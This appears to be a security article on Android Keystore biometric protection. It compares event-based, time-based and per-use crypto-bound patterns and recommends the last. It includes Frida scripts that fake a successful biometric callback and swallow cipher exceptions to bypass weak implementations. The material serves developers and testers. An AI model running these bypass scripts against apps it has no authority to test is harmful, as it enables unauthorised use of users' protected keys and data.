







# Does Biometric Protection Actually Stop Attacks? A Deep Dive

## The Core Question

If we create a signing key in Android Keystore **without biometric protection**, an attacker who compromises our app process (via Frida, malware, or root) can freely use that key to sign arbitrary data. **Does adding biometric protection actually fix this?**

**Short answer:** It depends on *how* you implement biometric protection. There are three patterns, and only one is truly secure.

---

## Three Biometric Implementation Patterns

Not all biometric implementations are equal. The way you wire up `BiometricPrompt` determines whether an attacker can bypass it.



---

## Pattern 1: Event-Based (INSECURE)

### How It Works

The app shows a `BiometricPrompt`, and when authentication succeeds, the callback triggers an action. The key itself has **no authentication requirement** — biometric is just a UI gate.

```kotlin
// INSECURE: key has no auth requirement
val keyGen = KeyGenerator.getInstance("AES", "AndroidKeyStore")
keyGen.init(
    KeyGenParameterSpec.Builder("my_key", PURPOSE_ENCRYPT or PURPOSE_DECRYPT)
        .setBlockModes(BLOCK_MODE_GCM)
        .setEncryptionPaddings(ENCRYPTION_PADDING_NONE)
        // NO setUserAuthenticationRequired(true) ← THE PROBLEM
        .build()
)
keyGen.generateKey()

// App just checks if biometric succeeded, then uses the key
biometricPrompt.authenticate(promptInfo)  // No CryptoObject!

override fun onAuthenticationSucceeded(result: AuthenticationResult) {
    // App thinks user authenticated, but Frida can call this directly
    val cipher = Cipher.getInstance("AES/GCM/NoPadding")
    cipher.init(Cipher.ENCRYPT_MODE, key)  // Works without real biometric!
    val encrypted = cipher.doFinal(data)
}
```

### The Frida Attack

An attacker with Frida (requires root or debuggable app) hooks `onAuthenticationSucceeded` and calls it directly:

```javascript
// Frida script — bypass Pattern 1 biometric
Java.perform(function() {
    // Hook BiometricPrompt.authenticate() — prevent it from showing
    var BiometricPrompt = Java.use('androidx.biometric.BiometricPrompt');
    
    BiometricPrompt.authenticate.overload(
        'androidx.biometric.BiometricPrompt$PromptInfo'
    ).implementation = function(promptInfo) {
        console.log("[*] BiometricPrompt.authenticate() intercepted");
        
        // Get the callback field
        var callback = this.mAuthenticationCallback.value;
        
        // Create a fake AuthenticationResult with null CryptoObject
        var AuthResult = Java.use(
            'androidx.biometric.BiometricPrompt$AuthenticationResult'
        );
        var fakeResult = AuthResult.$new(
            null,  // null CryptoObject — no hardware binding
            0,     // authenticationType
            null   // crypto
        );
        
        // Directly call success — no fingerprint needed
        callback.onAuthenticationSucceeded(fakeResult);
        console.log("[*] Bypassed! Called onAuthenticationSucceeded with null CryptoObject");
    };
});
```

**Result:** The app unlocks. The key is usable. No fingerprint was ever scanned.

### Why This Works

The key itself has **no authentication requirement at the hardware level**. The biometric prompt is just app-level UI logic — like putting a lock on a screen door. The attacker goes around it by calling the callback directly.



### Statistics

**Historical context (2019):** WithSecure Labs found that "70% of assessed applications were unlocked without a valid fingerprint" ([source](https://labs.withsecure.com/publications/how-secure-is-your-android-keystore-authentication)). That study is from 2019 and the ecosystem has improved since — `BiometricPrompt` replaced the deprecated `FingerprintManager`, and Google added null-CryptoObject checks in `androidx.biometric ≥ 1.2.0-beta02`.

**Current state (2025):** A [KeyDroid study](https://arxiv.org/html/2507.07927v1) analyzing 490,119 apps (October 2023 — August 2024) found that **56.3% of apps that self-report collecting sensitive data do not use trusted hardware at all**, and only **5.03% use the strongest form** (StrongBox). The Frida callback bypass technique **still works on Android 14+** if the app performs no CryptoObject validation — but properly implemented apps (with CryptoObject) are not vulnerable.

---

## Pattern 2: Time-Based Auth with CryptoObject (PARTIALLY SECURE)

### How It Works

The key is generated with `setUserAuthenticationRequired(true)` and a timeout (e.g., 30 seconds). The app uses `BiometricPrompt` to authenticate, and after success, the key is usable for the timeout duration.

```kotlin
// PARTIALLY SECURE: key requires auth with 30s timeout
val keyGen = KeyGenerator.getInstance("AES", "AndroidKeyStore")
keyGen.init(
    KeyGenParameterSpec.Builder("my_key", PURPOSE_ENCRYPT or PURPOSE_DECRYPT)
        .setBlockModes(BLOCK_MODE_GCM)
        .setEncryptionPaddings(ENCRYPTION_PADDING_NONE)
        .setUserAuthenticationRequired(true)
        .setUserAuthenticationParameters(30, AUTH_BIOMETRIC_STRONG)
        .build()
)
keyGen.generateKey()
```

### What Frida CANNOT Do

The attacker **cannot** simply call `onAuthenticationSucceeded` anymore. If they do, the callback fires, but any subsequent `cipher.init()` throws `UserNotAuthenticatedException` because the TEE hasn't received a valid auth token:

```javascript
// Frida attack on Pattern 2 — FAILS at the crypto step
Java.perform(function() {
    // ... hook and call onAuthenticationSucceeded as before ...
    
    // But when the app tries to use the key:
    // cipher.init(Cipher.ENCRYPT_MODE, key) 
    // → throws UserNotAuthenticatedException
    // because the TEE never received a real auth token!
});
```

### What Frida CAN Do (Exception Handling Bypass)

If the app **catches and ignores** the crypto exception, the attacker can still get through:

```javascript
// Frida attack — bypass by catching the exception
Java.perform(function() {
    var IllegalBlockSizeException = Java.use('javax.crypto.IllegalBlockSizeException');
    var Cipher = Java.use('javax.crypto.Cipher');
    
    // Hook Cipher.doFinal to catch the exception
    Cipher.doFinal.overload('[B').implementation = function(data) {
        try {
            return this.doFinal(data);
        } catch (e) {
            console.log("[*] Caught exception: " + e);
            // Return garbage or empty bytes — app might not check
            return Java.array('byte', []);
        }
    };
    
    // Also hook onAuthenticationSucceeded to trigger the flow
    // ... same as Pattern 1 ...
});
```

**This only works if the app doesn't properly validate the crypto result.** If the app uses the decrypted data as an essential key (e.g., to decrypt a secondary encryption key), this attack fails because the garbage bytes won't work.

### The Root Attack (Within Timeout Window)

A root attacker has a more powerful option. After a legitimate user authenticates (within the 30-second window), the root attacker can:

1. Wait for the user to authenticate normally
2. Within the 30-second window, use the key from their own code running as the app's UID
3. Sign or decrypt whatever they want until the timeout expires



### Why Time-Based Auth Is Only Partial Protection

The TEE checks: "Is there a valid auth token younger than the timeout?" It does **not** check: "Is this the same operation that triggered the auth?" This means any code running as the app's UID can piggyback on a legitimate authentication within the timeout window.

---

## Pattern 3: Per-Use Crypto-Bound (SECURE)

### How It Works

The key is generated with `timeout = 0`, which means **per-operation authentication**. The `Cipher`/`Signature` object is passed into `BiometricPrompt.CryptoObject`, and the TEE binds that specific crypto object to the biometric session.

```kotlin
// SECURE: per-use biometric, crypto-bound
val keyGen = KeyPairGenerator.getInstance("EC", "AndroidKeyStore")
keyGen.initialize(
    KeyGenParameterSpec.Builder("secure_signing_key",
        PURPOSE_SIGN or PURPOSE_VERIFY)
        .setDigests(DIGEST_SHA256)
        .setUserAuthenticationRequired(true)
        .setUserAuthenticationParameters(0, AUTH_BIOMETRIC_STRONG) // 0 = per-use
        .build()
)
keyGen.generateKeyPair()

// Usage: cipher MUST go through CryptoObject
val signature = Signature.getInstance("SHA256withECDSA")
signature.initSign(privateKey)

biometricPrompt.authenticate(
    promptInfo,
    BiometricPrompt.CryptoObject(signature)  // Hardware-bound!
)

override fun onAuthenticationSucceeded(result: AuthenticationResult) {
    // MUST use the returned CryptoObject's signature, not our own
    val authedSig = result.cryptoObject!!.signature!!
    authedSig.update(dataToSign)
    val signed = authedSig.sign()  // Works — one time only
}
```

### Why Frida CANNOT Bypass This



The attack fails at every level because:

1. **Can't fake the CryptoObject**: The `Cipher`/`Signature` inside the CryptoObject is bound to a TEE session. Only the real TEE can produce a valid session after verifying the biometric.

2. **Can't init the crypto object directly**: `signature.initSign(key)` throws `UserNotAuthenticatedException` because the TEE requires a per-operation auth token.

3. **Can't forge the auth token**: The auth token is HMAC-signed with a **per-boot secret that exists only inside the TEE**. Even root cannot access this secret.

### Why Root CANNOT Bypass This

This is the critical point. Even with full root access:



### The Auth Token Chain (Why Forgery Is Impossible)

This is how Android prevents even root from bypassing biometric-bound keys:



> "The HMAC key must **never** be made available outside the TEE."
> — [Android Authentication Architecture, source.android.com](https://source.android.com/docs/security/features/authentication)

> "AuthTokens flow from the authenticator TA to the keystore2 service in Android, which in turn passes them on to the KeyMint TA. [...] All secure components share a (per-boot) secret HMAC key that they use to authenticate each other's messages."
> — [Android Authentication Architecture, source.android.com](https://source.android.com/docs/security/features/authentication)

### What Root CAN Still Do (Limitations of Protection)

Even with per-use crypto-bound keys, root can:

1. **Deny service**: Prevent the app from using the key at all (but can't use it themselves)
2. **Wait for legitimate use and intercept the result**: If the user signs data, root can capture the signature output after it leaves the TEE. The signature itself is exposed to the app process.
3. **Replace what's being signed**: If the user initiates signing, root could swap the data being signed (e.g., change the transaction amount) before it's fed to `signature.update()`. This is a **UI manipulation attack**, not a Keystore attack.
4. **Compromise at display level**: Show the user "Sign $10 payment" while actually signing "$10,000 payment" — the TEE doesn't know what the data means.

**Mitigations for these residual risks:**
- Secure UI (Trusted UI in TEE that root can't overlay)
- Server-side verification of signed data
- Transaction confirmation in a separate secure channel

---

## Complete Comparison Table

| Attack Vector | No Auth | Biometric (Event-Based) | Biometric (Time-Based + CryptoObject) | Biometric (Per-Use + CryptoObject) |
|---|---|---|---|---|
| **Other app** | Blocked (UID) | Blocked (UID) | Blocked (UID) | Blocked (UID) |
| **Frida: hook callback** | N/A — no biometric | **BYPASSED** | Callback succeeds but key throws `UserNotAuthenticatedException` | Callback has null CryptoObject → crash |
| **Frida: use key directly** | **Key usable freely** | **Key usable freely** (no auth on key) | Key requires valid TEE auth token | Key requires valid TEE auth token |
| **Frida: exception swallowing** | N/A | N/A | **Possible** if app ignores failed decryption | **BLOCKED** — can't even get a valid Cipher |
| **Root: use key as app UID** | **Key usable freely** | **Key usable freely** | **Usable within timeout** after legitimate auth | **BLOCKED** — each operation needs real biometric |
| **Root: forge auth token** | N/A | N/A | **IMPOSSIBLE** — HMAC key in TEE | **IMPOSSIBLE** — HMAC key in TEE |
| **Root: extract key material (TEE)** | Cannot extract | Cannot extract | Cannot extract | Cannot extract |
| **Root: intercept signed output** | **YES** | **YES** | **YES** | **YES** — but only after real biometric |
| **Root: swap data being signed** | **YES** | **YES** | **YES** | **YES** — TEE doesn't know data semantics |

---

## The Bottom Line



**For signing keys specifically:**
- Without biometric: any code in your process can sign anything → Frida and root trivially abuse this
- With event-based biometric: same as above, the biometric is just UI theater
- With time-based biometric + CryptoObject: Frida callback bypass blocked, but root can piggyback within timeout
- **With per-use biometric + CryptoObject: only a real finger on the sensor produces a valid signature, verified by TEE hardware. Root cannot forge the auth token because the HMAC secret never leaves the TEE.**

---

## Sources

- [WithSecure Labs — "How Secure is your Android Keystore Authentication?"](https://labs.withsecure.com/publications/how-secure-is-your-android-keystore-authentication)
- [Guardsquare — "Hardware-Backed Keys for Android Apps"](https://www.guardsquare.com/blog/android-keystore)
- [Android Authentication Architecture — source.android.com](https://source.android.com/docs/security/features/authentication)
- [Android Keystore Features — source.android.com](https://source.android.com/docs/security/features/keystore/features)
- [Android Keystore System — developer.android.com](https://developer.android.com/privacy-and-security/keystore)
- [SEC Consult — Bypassing Android Biometric Authentication](https://sec-consult.com/blog/detail/bypassing-android-biometric-authentication/)
- [WithSecure — android-keystore-audit Frida scripts](https://github.com/WithSecureLABS/android-keystore-audit)
- [Kayssel — Securing Biometric Authentication: Defending Against Frida Bypass](https://www.kayssel.com/post/android-8/)
